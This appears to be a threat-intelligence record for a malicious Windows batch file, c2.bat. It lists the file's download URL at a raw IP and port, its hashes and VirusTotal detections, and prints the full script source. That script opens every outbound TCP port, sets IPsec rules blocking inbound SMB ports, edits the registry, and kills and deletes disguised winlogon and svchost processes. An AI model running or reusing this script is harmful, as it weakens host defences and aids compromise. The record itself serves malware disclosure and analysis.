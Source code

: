 netsh advfirewall firewall add rule name="tcpall" dir=out protocol=tcp localport=0-65535 action=allow 
netsh ipsec static add policy name=win
netsh ipsec static add filterlist name=Allowlist
netsh ipsec static add filterlist name=denylist
netsh ipsec static add filter filterlist=denylist srcaddr=any dstaddr=me description=not protocol=tcp mirrored=yes dstport=135
netsh ipsec static add filter filterlist=denylist srcaddr=any dstaddr=me description=not protocol=tcp mirrored=yes dstport=137
netsh ipsec static add filter filterlist=denylist srcaddr=any dstaddr=me description=not protocol=tcp mirrored=yes dstport=138
netsh ipsec static add filter filterlist=denylist srcaddr=any dstaddr=me description=not protocol=tcp mirrored=yes dstport=139
netsh ipsec static add filter filterlist=denylist srcaddr=any dstaddr=me description=not protocol=tcp mirrored=yes dstport=445
netsh ipsec static add filteraction name=Allow action=permit
netsh ipsec static add filteraction name=deny action=block
netsh ipsec static add rule name=deny1 policy=win filterlist=denylist filteraction=deny
netsh ipsec static set policy name=win assign=y 
ver | find "5.1." > NUL && sc config SharedAccess start= auto && echo Yes | reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\NetBT\Parameters /t REG_DWORD /v SMBDeviceEnabled /d 0
attrib -s -h -r %WINDIR%\systxm1\*.*&attrib -s -h -r %WINDIR%\system\*.*
@Wmic Process Where "Name='winlogon.exe' And ExecutablePath='%WINDIR%\system\winlogon.exe'" Call Terminate &del %WINDIR%\system\winlogon.exe
@Wmic Process Where "Name='svchost.exe' And ExecutablePath='%WINDIR%\system\svchost.exe'" Call Terminate &del %WINDIR%\system\svchost.exe
del %WINDIR%\debug\c2.bat
exit
* [Other] text: Winbatch
* [Payload delivery] filename: c2.bat
* [Other] text: Malicious

### url — url object describes an url along with its normalized field (like extracted using faup parsing library) and its metadata.
* [Network activity] url: http://74.222.1.38:8888/close.bat
* [Network activity] hostname: 74.222.1.38
* [Network activity] port: 8888
* [Other] text: close.bat

### file — File object describing a file with meta-information
* [Payload delivery] md5: <md5>
* [Payload delivery] sha1: <sha1>
* [Payload delivery] sha256: <sha256>

### virustotal-report — VirusTotal report
* [Other] datetime: 2019-05-11T06:46:25
* [Payload delivery] link: https://www.virustotal.com/file/43b4e78dcc1874dc1422b4dc4d40a4841163891a69d59d7f5a0289616fc83bb5/analysis/1557557185/
* [Payload delivery] text: 5/59
